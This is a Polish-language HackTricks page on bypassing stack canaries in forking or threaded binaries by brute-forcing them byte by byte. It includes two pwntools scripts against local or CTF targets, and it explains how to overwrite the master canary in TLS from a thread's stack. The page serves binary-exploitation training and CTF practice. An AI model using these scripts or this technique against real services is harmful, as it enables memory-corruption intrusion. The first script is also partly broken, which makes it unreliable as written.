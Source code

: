 # BF Forked & Threaded Stack Canaries

{% hint style="success" %}
Naucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

**Jeśli masz do czynienia z binarnym plikiem chronionym przez canary i PIE (Position Independent Executable), prawdopodobnie będziesz musiał znaleźć sposób na ich obejście.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Zauważ, że **`checksec`** może nie wykryć, że binarny plik jest chroniony przez canary, jeśli został on skompilowany statycznie i nie jest w stanie zidentyfikować funkcji.\
Możesz jednak zauważyć to ręcznie, jeśli zauważysz, że wartość jest zapisywana na stosie na początku wywołania funkcji, a ta wartość jest sprawdzana przed wyjściem.
{% endhint %}

## Brutalne narzucanie Canary

Najlepszym sposobem na obejście prostego canary jest, gdy binarny plik to program **tworzący procesy potomne za każdym razem, gdy nawiązujesz z nim nowe połączenie** (usługa sieciowa), ponieważ za każdym razem, gdy się z nim połączysz, **użyty zostanie ten sam canary**.

Następnie najlepszym sposobem na obejście canary jest po prostu **brutalne narzucanie go znak po znaku**, a możesz dowiedzieć się, czy zgadnięty bajt canary był poprawny, sprawdzając, czy program się zawiesił, czy kontynuuje swoje regularne działanie. W tym przykładzie funkcja **brutalnie narzuca 8-bajtowy canary (x64)** i rozróżnia między poprawnie zgadniętym bajtem a złym bajtem, po prostu **sprawdzając**, czy **serwer** wysyła **odpowiedź** z powrotem (innym sposobem w **innych sytuacjach** mogłoby być użycie **try/except**):

### Przykład 1

Ten przykład jest zaimplementowany dla 64 bitów, ale można go łatwo zaimplementować dla 32 bitów.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Przykład 2

To jest zaimplementowane dla 32 bitów, ale można to łatwo zmienić na 64 bity.\
Zauważ również, że w tym przykładzie **program oczekiwał najpierw bajtu wskazującego rozmiar danych wejściowych** oraz samego ładunku.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## Wątki

Wątki tego samego procesu będą również **dzielić ten sam token kanarka**, dlatego będzie możliwe **przeprowadzenie ataku brutalnej siły** na kanarka, jeśli binarny plik tworzy nowy wątek za każdym razem, gdy następuje atak.&#x20;

Co więcej, przepełnienie bufora w funkcji wątkowej zabezpieczonej kanarkiem może być wykorzystane do **modyfikacji głównego kanarka przechowywanego w TLS**. Dzieje się tak, ponieważ możliwe może być dotarcie do pozycji pamięci, w której przechowywane jest TLS (a zatem kanarek) za pomocą **przepełnienia bufora na stosie** wątku.\
W rezultacie zastosowanie zabezpieczenia jest bezużyteczne, ponieważ sprawdzanie jest wykonywane z użyciem dwóch kanarków, które są identyczne (choć zmodyfikowane).\
Ten atak jest opisany w artykule: [http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads](http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads)

Sprawdź również prezentację [https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015](https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015), która wspomina, że zazwyczaj **TLS** jest przechowywane przez **`mmap`** i gdy tworzony jest **stos wątku**, również jest generowany przez `mmap`, co może umożliwić przepełnienie, jak pokazano w poprzednim opisie.

## Inne przykłady i odnośniki

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 bity, brak PIE, nx, kanarek BF, zapisz w pewnej pamięci ROP, aby wywołać `execve` i przeskoczyć tam.
